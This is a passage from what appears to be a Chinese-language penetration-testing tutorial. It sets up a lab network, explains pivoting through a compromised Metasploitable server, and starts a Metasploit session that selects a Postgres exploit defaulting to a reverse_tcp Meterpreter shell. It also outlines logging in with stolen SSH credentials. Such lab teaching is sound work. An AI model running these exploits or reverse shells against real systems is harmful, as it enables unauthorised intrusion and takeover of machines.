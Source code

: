 通过 ping 测试，检查是否能从 Ubuntu 虚拟机访问 Metasploitable 服务器。如果能连接到 Metasploitable 服务器，你应该看到以下信息，且没有丢失数据包：

```
victim@ubuntu:~$ ping 10.0.0.1
PING 10.0.0.1 (10.0.0.1): 56 data bytes

64 bytes from 10.0.0.1: icmp_seq=0 ttl=115 time=15.049 ms

64 bytes from 10.0.0.1: icmp_seq=1 ttl=115 time=14.385 ms
64 bytes from 10.0.0.1: icmp_seq=2 ttl=115 time=15.036 ms

64 bytes from 10.0.0.1: icmp_seq=3 ttl=115 time=22.304 ms

64 bytes from 10.0.0.1: icmp_seq=4 ttl=115 time=23.752 ms

64 bytes from 10.0.0.1: icmp_seq=5 ttl=115 time=14.254 ms

64 bytes from 10.0.0.1: icmp_seq=6 ttl=115 time=14.321 ms

^C

--- 10.0.0.1 ping statistics ---

7 packets transmitted, 7 packets received, 0.0% packet loss
round-trip min/avg/max/stddev = 14.254/17.014/23.752/3.835 ms
```

按下 CTRL-C 结束 ping 操作。

虽然你的 Ubuntu 虚拟机可以访问 Metasploitable 机器，但它无法访问私有网络之外的任何内容。同样，私有网络之外的机器也无法访问 Ubuntu 虚拟机。这意味着你已经正确设置了双网卡机器和私有网络。现在，让我们讨论如何通过攻击 Metasploitable 机器并将其转变为虚拟环境内部局域网和私有局域网之间的桥梁来访问私有网络。我们通常将这个桥梁称为*代理*，它是一个程序，负责从一个连接获取数据并将其传递到另一个连接。你可以把它想象成一个中介，帮助两台机器之间建立连接。

#### *使用 Metasploit 进行 pivoting*

Metasploit 框架内置了代理功能，让我们利用它从头到尾执行一次 pivoting 攻击。我们将从 Kali Linux 虚拟机扫描 Metasploitable 服务器开始。一旦找到漏洞，我们将利用它并上传一个反向 Shell。然后我们将检查 Metasploitable 服务器是否可以访问多个网络。

在我们发现它可以后，我们将使用 Metasploitable 服务器作为代理，访问包含我们 Ubuntu 虚拟机的私有网络。然后，我们将使用盗取的 SSH 凭据登录到私有网络中的 Ubuntu 虚拟机，并上传另一个反向 shell。最后，我们通过 Metasploitable 服务器上的代理路由我们的命令，从而控制私有局域网中的反向 shell。

让我们开始吧。使用我们在第八章中讨论的漏洞扫描器扫描 Metasploitable 服务器。*Nexpose* 漏洞扫描器允许你从 Metasploit 控制台进行扫描。请记住，这些扫描器使用启发式方法，这意味着它们可能错误地识别漏洞。因此，你可能需要尝试多个漏洞，直到发现一个能让你访问机器的漏洞。

我们在第八章中讨论了扫描，因此我假设你已经识别了一些漏洞。为了多样化，我们不利用我们可靠的 FTP 漏洞，而是利用 Postgres 服务器中的一个漏洞，该漏洞允许我们通过利用配置错误上传一个反向 shell。如果你还没开始，请在 Kali Linux 上启动 Metasploit：

```
kali@kali:~$ sudo msfconsole
```

接下来，输入`**use**`关键字并指定漏洞利用路径来选择 Postgres 漏洞利用。由于我们没有选择有效载荷，Metasploit 将默认使用`reverse_tcp` Meterpreter 有效载荷。有关不同类型有效载荷及其选择方法的概述，请参见第十章。

```
msf6 > use exploit/linux/postgres/postgres_payload

[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
```
